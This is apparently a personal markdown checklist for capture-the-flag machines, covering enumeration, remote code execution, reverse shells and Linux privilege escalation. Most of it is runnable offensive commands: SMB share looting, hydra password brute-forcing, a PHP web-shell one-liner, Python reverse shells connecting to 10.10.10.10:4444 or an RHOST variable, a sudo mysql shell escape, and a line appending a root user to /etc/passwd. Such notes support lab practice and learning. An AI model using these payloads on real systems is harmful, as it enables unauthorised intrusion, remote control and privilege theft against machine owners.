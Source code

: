 # Checklist for CTF

This is an attempt to create mindmap oriented checklist for CTF and no reason can this not extend to bug bounty too.

- [ ] Find IP of the machine
	- [ ] `export IP=<MACHINE_IP>`
	- [ ] `export MACHINE_NAME=<MACHINE_NAME>`
- [ ] Set folder structure
	- [ ] `cd ctf/`
	- [ ] `mkdir -p $MACHINE_NAME/enum`
	- [ ] `mkdir -p $MACHINE_NAME/files`
	- [ ] `touch $MACHINE_NAME/enum/users.txt`
	- [ ] `cp templates/report.md ctf/$MACHINE_NAME/${MACHINE_NAME}.md`
- [ ] Set hostname in etc/hosts (if helps)




- [ ] Enum
	- [ ] Nmap
		- [ ] [Howto](active-information-gathering/nmap.md)
			- [ ] Copy key findings to report
			- [ ] check results
			- [ ] Paste to [report](templates/report.md)
			- [ ] Highlight exploitables/targets
	- [ ] Rustscan
		- [ ] check results
  - [ ] `enum4linux $IP` -> users, share, comon structure, server block.
    - [ ] Highlights
      - [ ] check results 
      - [ ] Check SMB null session
      - [ ] system level users
	- [ ] nmap-nse
  	- [ ] [Howto](active-information-gathering/nmap.md#nmap-nse)
	- [ ] smb/netbio-ssn
		- [ ] Ports [139, 445]
		- [ ] `mkdir smb`
		- [ ] `nmap -p139,445 --script=smb-enum-shares $IP`
			- [ ] `smbclient //<IP>/IPC$ -N (/ADMINS/)` -> N: smb null session.
			- [ ] smbclient //'IP'/qui -N
			- [ ] crackmapexec
			- [ ] mfsconsole > use auxilaiary(scanner/smb/smb_login) > set pass rockyou.
		- [ ] `smbmap -H $IP`
		- [ ] `smbclient --no-pass -L //$IP`
		- [ ] `smbclient --no-pass \\\\$IP\\anonymous`
		- [ ] `smbclient \\\\$IP\\ITDEPT anonymous` [Tested]
		- [ ] `mget file.name`
		- [ ] `smbmap -u <user> -p <PassWord> -H $IP`
		- [ ] `smbclient //'IP'/<share> -U'user'%'password'`
		- [ ] `smbclient //$IP/secured -U <user>%<password> -c "prompt OFF;recurse ON;mget *"`
	- [ ] ssl/pop3 [110]
	- [ ] ssl/imap [993/143]
	- [ ] Apache Tomcat [8080]
		- [ ] Read Version
		- [ ] Check URL (hints)
		- [ ] default credentials
		- [ ] mfsconsole /is it allowed?
	- [ ] Domain [53]
	- [ ] Web Enum
		- [ ] Load each targetted port in browser
		- [ ] export PORT=80
		- [ ] `dirb http://$IP:$PORT/ -r`
		- [ ] `nikto --host http://<IP> -C all` :: tool for webapp
		- [ ] `export URL=${IP}:8080/FUZZ` or `export URL=${IP}:8080/FUZZ/`
			- [ ] HTTPS you will want to include protocol too
			- [ ] `wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"`
		- [ ] `gobuster dir -u http://$IP -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt`  :: helpful during bruteforce
		- [ ] framework/server/service -> searchexploit
		- [ ] Check for config through URL's like 
		- [ ] hostname/username/re-use etc
		- [ ] hydra
			- [ ] makes sense if we have some password list & user & IP.
			- [ ] `hydra -l <user> -P <password.list> <IP> ssh`
			- [ ] `hydra with known user/pass as combination`
		- [ ] LFI
			- [ ] check for ssh keys
			- [ ] check for service/app configuration file (e.g: /etc/tomcat7/tomcat-users)
			- [ ] vsftpd -> upload, to rce from upload file
		- [ ] RFI
			- [ ] rev shell
				- [ ] https://www.revshells.com/
				- [ ] `python -c 'import pty;pty.spawn("/bin/bash")'`
		- [ ] `linpeas.sh`
		- [ ] CUPS Http `631`
	- [ ] `curl -A "GoogleBot" http://$IP/robots.txt`
	- [ ] searchsploit
	- [ ] Port knocking
		- [ ] nmap port knock 
- [ ] /cgi-bin
	- [ ] shellshock?
- [ ] morse code?



- [ ] Remote Code Execution
	- [ ] `<?php system($_GET['cmd']);?>`
	- [ ] Verify RCE
		- [ ] e.g : `http://$IP/<path>/?lang=/var/ftp/pub/backdoor.php&cmd=id`.`
		- [ ] Payload:
			- [ ] https://github.com/nullbr41n/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
			- [ ] payload converter (hURL)
			- [ ] `python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
			- [ ] `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`


- [ ] Reverse Shell
	- [ ] web uploads
		- [ ] `nc - nlvp 1` `Listening on port 1`
		- [ ] Upload payload on other side, should open connection
		- [ ] check RCE section.
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`


- [ ] privileges escalation
	- [ ] `sudo -l`
	- [ ] password re-use
		- [ ] from credentials founds in enum
		- [ ] `su - <user>`
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`
		- [ ] e.g: `sudo /usr/bin/mysql -e '\! /bin/sh'`  [sudo nopass for mysql](https://gtfobins.github.io/gtfobins/mysql/#sudo)
	- [ ] `netstat -tupanl | grep -i '127.0.0.1'` -> anything running on loopback
	- [ ] `find / -perm -u=s -type f 2>/dev/null` 
		- [ ] *_The first step is to identify all programs or files that have SUID bits enabled_*
			- [ ] example
				- [ ] /usr/bin/zsh
		- [ ] Read Source Code (if any)
		- [ ] look for files owned by root grouped by user.
		- [ ] `ps aux | grep -i 'root' --auto-color` <-- anything running as root?
			- [ ] lateral machines? (not done anything like this)
			- [ ] private ip address? (not done anything)
			- [ ] web root -> any db credes?
	- [ ] Take advantage of this misconfiguration by abusing the PATH variable
	- [ ] Take advantage of misconfigured cronjob.
	- [ ] `find / -perm -u=g -type f 2>/dev/null` -> Are there any GUID
	- [ ] simple HTTP server
		- [ ] download pspy
		- [ ] Second shell -> `pspy<BIT>`
		- [ ] `getcap -r / 2>/dev/null` -> Are there any extended permissions
		- [ ] exploit miss-configuration
	- [ ] writeable `passwd`?
		- [ ] `perl -le 'print crypt("PassWord","addedsalt")'`
		- [ ] `echo "nullBrain:saltedvaluefromabove:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd`
